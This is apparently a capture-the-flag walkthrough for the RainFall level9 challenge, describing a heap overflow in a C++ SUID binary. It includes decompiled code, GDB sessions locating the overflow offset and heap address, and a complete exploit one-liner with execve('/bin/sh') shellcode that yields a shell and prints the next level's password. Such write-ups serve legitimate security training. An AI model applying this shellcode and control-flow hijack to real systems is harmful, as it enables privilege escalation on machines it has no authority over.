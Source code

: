 # Level 9 Walkthrough

> Goal: abuse a heap overflow in a small C++ program to pivot an indirect call toward shellcode we place in a heap buffer, then read the next user’s password.

---

## Context

**Who am I?**

```bash
level9@RainFall:~$ id
uid=2009(level9) gid=2009(level9) groups=2009(level9),100(users)
```

**Where am I?**

```bash
level9@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9*
```

SUID binary owned by `bonus0`. No output by default; accepts 0–2 args without printing anything visible.

---

## Decompiled View

```c++
class N {
public:
    N(int v) {
        this->vptr  = &VTable;
        this->value = v;
    }

    void setAnnotation(char *s) {
        size_t n = strlen(s);
        memcpy((char*)this + 4, s, n); // dangerous: unchecked copy can overflow into next object
    }

    int operator+(N &o) { return this->value + o.value; }
    int operator-(N &o) { return this->value - o.value; }

    void **vptr;  // vtable pointer at offset 0
    int   value;  // at offset 0x68
};

typedef int (*Fn)(N*, N*);

int main(int ac, char **av) {
    if (ac < 2) exit(1);

    N *a = new N(5);
    N *b = new N(6);

    a->setAnnotation(av[1]);

    // double deref of vptr, then call with (b, a)
    Fn f = *(Fn*)(*(void**)b);
    return f(b, a);
}
```

Key points:

* `setAnnotation` → uses `memcpy` with **no bounds check**, copies user input into the object’s buffer region.
* Later, `main` performs an **indirect call** through a function pointer table. Our overflow can corrupt fields so this pointer chain eventually leads to **attacker-controlled data**.

---

## High-Level Exploit Strategy

* Place **shellcode** directly into the heap buffer allocated for `N`.
* Arrange the first word of that buffer to be a pointer to the shellcode start.
* Overflow further to overwrite the call target slot (offset 108) with the buffer’s address.
* Execution: indirect call dereferences twice → lands in our shellcode.

---

## Finding the Offset (pattern method)

```gdb
(gdb) run 'Aa0Aa1...'
Program received signal SIGSEGV
(gdb) info registers eax
EAX = 0x41366441
```

Pattern offset tool:

```
Exact match at offset: 108
```

So: after **108 bytes** we overwrite the indirect call slot.

---

## Locating the Heap Buffer

Break after the `setAnnotation` call:

```gdb
(gdb) b N::setAnnotation(char*)
Breakpoint 1 at 0x8048714
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x08048714 in N::setAnnotation(char*) ()
(gdb) s
Single stepping until exit from function _ZN1N13setAnnotationEPc,
which has no line number information.
0x0804867c in main ()
(gdb) x/wx $eax
0x804a00c:	0x41414141
(gdb) x/wx $eax + 4
0x804a010:	0x00000000
```

* Heap buffer for our string at `0x0804a00c`
* First 4 bytes under our control
* Plan: put a pointer to `0x0804a010` there (the shellcode start)

---

## Step 6: Build the exploit payload

**Shellcode (28 bytes)**: execve("/bin//sh") — source: [https://shell-storm.org/shellcode/files/shellcode-811.html](https://shell-storm.org/shellcode/files/shellcode-811.html)

**Layout**

```
[shell_ptr (4)] [shellcode (28)] [padding (76)] [buf_addr (4)]
```

* `shell_ptr = buf + 4` (pointer to the start of shellcode inside the same heap buffer)
* `buf_addr = buf` (address used to overwrite the indirect call slot at offset 108)

**One‑liner**

```bash
level9@RainFall:~$ ./level9 $(python -c 'print("\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A"*76 + "\x0c\xa0\x04\x08")')
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

---

## **Files in this repository**

* `flag.txt`: file containing the retrieved flag
* `asm_analysis.md`: GDB analysis of the binary
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)

---

---

## Conclusion

This level showcases a practical heap‑based control‑flow hijack. Instead of stack tricks, we overflow the annotation region of one object to overwrite the adjacent object’s vtable pointer. By placing shellcode in the same heap buffer and storing a pointer to it at the head of that buffer, the program’s final double‑indirect call is redirected into our code, yielding a shell and the flag.

